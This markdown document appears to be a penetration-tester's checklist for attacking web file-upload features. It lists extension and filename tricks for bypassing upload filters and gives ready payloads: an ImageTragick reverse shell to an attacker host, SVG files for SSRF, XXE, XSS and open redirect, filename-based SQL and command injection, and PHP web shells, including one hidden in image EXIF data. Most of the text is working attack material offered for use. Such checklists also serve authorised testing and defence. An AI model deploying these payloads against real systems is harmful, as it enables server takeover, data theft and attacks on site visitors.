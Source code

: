 ## Upload Function

- Upload Function
    - Extensions Impact
        - `ASP`, `ASPX`, `PHP5`, `PHP`, `PHP3`: Webshell, RCE
        - `SVG`: Stored XSS, SSRF, XXE
        - `GIF`: Stored XSS, SSRF
        - `CSV`: CSV injection
        - `XML`: XXE
        - `AVI`: LFI, SSRF
        - `HTML`, `JS` : HTML injection, XSS, Open redirect
        - `PNG`, `JPEG`: Pixel flood attack (DoS)
        - `ZIP`: RCE via LFI, DoS
        - `PDF`, `PPTX`: SSRF, BLIND XXE
    - Blacklisting Bypass
        - PHP → `.phtm`, `phtml`, `.phps`, `.pht`, `.php2`, `.php3`, `.php4`, `.php5`, `.shtml`, `.phar`, `.pgif`, `.inc`
        - ASP → `asp`, `.aspx`, `.cer`, `.asa`
        - Jsp → `.jsp`, `.jspx`, `.jsw`, `.jsv`, `.jspf`
        - Coldfusion → `.cfm`, `.cfml`, `.cfc`, `.dbm`
        - Using random capitalization → `.pHp`, `.pHP5`, `.PhAr`
    - Whitelisting Bypass
        - `file.jpg.php`
        - `file.php.jpg`
        - `file.php.blah123jpg`
        - `file.php%00.jpg`
        - `file.php\x00.jpg` this can be done while uploading the file too, name it `file.phpD.jpg` and change the D (44) in hex to 00.
        - `file.php%00`
        - `file.php%20`
        - `file.php%0d%0a.jpg`
        - `file.php.....`
        - `file.php/`
        - `file.php.\`
        - `file.php#.png`
        - `file.`
        - `.html`
    - Vulnerabilities
        - [ ]  Directory Traversal
            - Set filename `../../etc/passwd/logo.png`
            - Set filename `../../../logo.png` as it might changed the website logo.
        - [ ]  SQL Injection
            - Set filename `'sleep(10).jpg`.
            - Set filename `sleep(10)-- -.jpg`.
        - [ ]  Command Injection
            - Set filename `; sleep 10;`
        - [ ]  SSRF
            - Abusing the "Upload from URL", if this image is going to be saved in some public site, you could also indicate a URL from [IPlogger](https://iplogger.org/invisible/) and steal information of every visitor.
            - SSRF Through `.svg` file.

            ```php
            <?xml version="1.0" encoding="UTF-8" standalone="no"?><svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="200" height="200"><image height="200" width="200" xlink:href="https://attacker.com/picture.jpg" /></svg>
            ```

        - [ ]  ImageTragic

            ```
            push graphic-context
            viewbox 0 0 640 480
            fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
            pop graphic-context
            ```

        - [ ]  XXE
            - Upload using `.svg` file

            ```xml
            <?xml version="1.0" standalone="yes"?>
            <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
            <svg width="500px" height="500px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
               <text font-size="40" x="0" y="16">&xxe;</text>
            </svg>
            ```

            ```xml
            <svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
                <image xlink:href="expect://ls"></image>
            </svg>
            ```

            - Using excel file
        - [ ]  XSS
            - Set file name `filename="svg onload=alert(document.domain)>"` , `filename="58832_300x300.jpg<svg onload=confirm()>"`
            - Upload using `.gif` file

            ```
            GIF89a/*<svg/onload=alert(1)>*/=alert(document.domain)//;
            ```

            - Upload using `.svg` file

            ```xml
            <svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>
            ```

            ```xml
            <?xml version="1.0" standalone="no"?>
            <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

            <svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
               <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
               <script type="text/javascript">
                  alert("HolyBugx XSS");
               </script>
            </svg>
            ```

        - [ ]  Open Redirect
            1. Upload using `.svg` file

            ```xml
            <code>
            <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
            <svg
            onload="window.location='https://attacker.com'"
            xmlns="http://www.w3.org/2000/svg">
            <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
            </svg>
            </code>
            ```

    - Content-ish Bypass
        - [ ]  Content-type validation
            - Upload `file.php` and change the `Content-type: application/x-php` or `Content-Type : application/octet-stream` 
            to `Content-type: image/png` or `Content-type: image/gif` or `Content-type: image/jpg`.
        - [ ]  Content-Length validation
            - Small PHP Shell

            ```php
            (<?=`$_GET[x]`?>)
            ```

        - [ ]  Content Bypass Shell
            - If they check the Content. Add the text "GIF89a;" before you shell-code. ( `Content-type: image/gif` )

            ```php
            GIF89a; <?php system($_GET['cmd']); ?>
            ```

    - Misc
        - [ ]  Uploading `file.js` & `file.config` (web.config)
        - [ ]  Pixel flood attack using image
        - [ ]  DoS with a large values name: `1234...99.png`
        - [ ]  Zip Slip
            - If a site accepts `.zip` file, upload `.php` and compress it into `.zip` and upload it. Now visit, `site.com/path?page=zip://path/file.zip%23rce.php`
        - [ ]  Image Shell
            - Exiftool is a great tool to view and manipulate exif-data. Then I will to rename the file `mv pic.jpg pic.php.jpg`

            ```php
            exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' pic.jpg
            ```
